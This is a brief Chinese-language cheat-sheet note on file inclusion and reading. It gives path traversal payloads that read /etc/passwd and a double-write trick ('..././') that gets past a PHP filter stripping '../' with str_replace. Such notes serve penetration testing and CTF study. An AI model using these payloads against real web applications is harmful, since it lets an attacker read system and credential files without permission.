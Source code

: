 # 信息泄露



## 文件包含/读取



```
/../../../../../../../etc/passwd
```

要是知道在某个文件夹下面，就可以利用该文件夹进行包含绕过



```
./xxx/../../../../../etc.passwd
```



绕过：将../转换为空格，所以应该可以双写绕过

```
str_replace('../', '',$_GET['language']);
```



```
?language=/..././..././..././..././..././..././..././..././etc/passwd
```

